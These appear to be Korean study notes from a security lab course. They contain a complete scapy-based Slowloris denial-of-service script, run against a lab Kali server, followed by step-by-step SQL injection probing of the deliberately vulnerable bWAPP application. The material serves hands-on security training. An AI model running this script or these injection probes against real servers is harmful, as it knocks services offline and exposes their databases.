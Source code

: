 # (Day 7) Slowloris Attack

Created: Dec 11, 2019 1:14 PM
Tags: slowloris
Updated: Dec 11, 2019 10:48 PM

## Slowloris Attack

- HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을 이용한 공격
- 헤더의 끝을 나타내는 개행문자를 전달하지 않아 서버가 연결을 유지하도록 하는 공격

## [실습] scapy를 활용

- **Kally #2**
- `gedit slowloris.py`    slowloris 파일 생성

    #! /usr/bin/env python
    
    import sys
    import time
    from scapy.all import *
    
    def slowloris (target, num) :
        print "start connect > {}".format(target)
        syn = []
        for i in range(num) :
            syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    		
    		syn_ack = sr(syn, verbose=0)[0]
    
        ack = []
        for sa in syn_ack :
            payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
            "Host: {}\r\n".format(target) +\
            "User-Agent: Mozilla/4.0\r\n" +\
            "Content-Length: 42\r\n"
    
            ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
        
        answer = sr(ack, verbose=0)[0]
        print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
        print "Sending data \"X-a: b\\r\\n\".."
    
        count = 1
        while True :
            print "{} time sending".format(count)
            ack = []
            for ans in answer :
                ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
            answer = sr(ack, inter=0.5, verbose=0)[0]
            time.sleep(10)
            count += 1
    
    if __name__ == "__main__" :
        if len(sys.argv) < 3 :
            print "Usage: {} <target> <number of connection>".format(sys.argv[0])
            sys.exit(1)
        slowloris(sys.argv[1], int(sys.argv[2]))

- **Kally #1**
    - 서버 재기동
    `service apache2 stop`
    `service apache2 start`
    - 서버 상태 확인 (브라우저) [localhost/server-status](http://localhost/server-status)
- **Kally #2**
    - `python [slowloris.py](http://slowloris.py/) KALI#1_IP 50`
    50개의 패킷을 Kalli #1에게 전송

        ![Day%207%20Slowloris%20Attack/Untitled.png](Day%207%20Slowloris%20Attack/Untitled.png)

- **Kally #1의 브라우저 (localhost/server-status)**
- 50개의 패킷 요청을 읽고 있음

    ![Day%207%20Slowloris%20Attack/Untitled%201.png](Day%207%20Slowloris%20Attack/Untitled%201.png)

- Kally #1
    - mysql 서버 재기동
    service mysql start
- Kally #2
    - (브라우저) Kally #1의 bWAPP 로 접속 `Kally #1_ip /bWAPP`

        ![Day%207%20Slowloris%20Attack/Untitled%202.png](Day%207%20Slowloris%20Attack/Untitled%202.png)

        영화 조회 서비스

        ---

        [화면]
        제목 : man

        [전달 ← 요청 파라미터를 통해 전달]

        sqli_1.php?=title=man

        [사용 → 쿼리문을 만드는데 사용될 것으로 유추]
        select * from movies where title = '%man%'

        ![Day%207%20Slowloris%20Attack/Untitled%203.png](Day%207%20Slowloris%20Attack/Untitled%203.png)

        입력값이 전달/사용 과정에서 조작이 발생하는지를 확인할 때

        ---

        화면]
        제목 : man'

        [전달 ← 요청 파라미터를 통해 전달]

        sqli_1.php?=title=man'

        [사용 → 쿼리문을 만드는데 사용될 것으로 유추]
        select * from movies where title = '%man'%'

        ![Day%207%20Slowloris%20Attack/Untitled%204.png](Day%207%20Slowloris%20Attack/Untitled%204.png)

        ⇒ 백엔드 db가 mysql이라는 정보와 화면에서 입력한 값은 그대로 쿼리의 생성/실행에 활용됨

        - 정상적인 쿼리가 반환하는 컬럼의 개수를 확인

        ![Day%207%20Slowloris%20Attack/Untitled%205.png](Day%207%20Slowloris%20Attack/Untitled%205.png)

        ![Day%207%20Slowloris%20Attack/Untitled%206.png](Day%207%20Slowloris%20Attack/Untitled%206.png)

- 웹 해킹 관련 서적
    - 클라이언트 side :
    - 서버 side : 웹 해킹 & 보안 완벽 가이드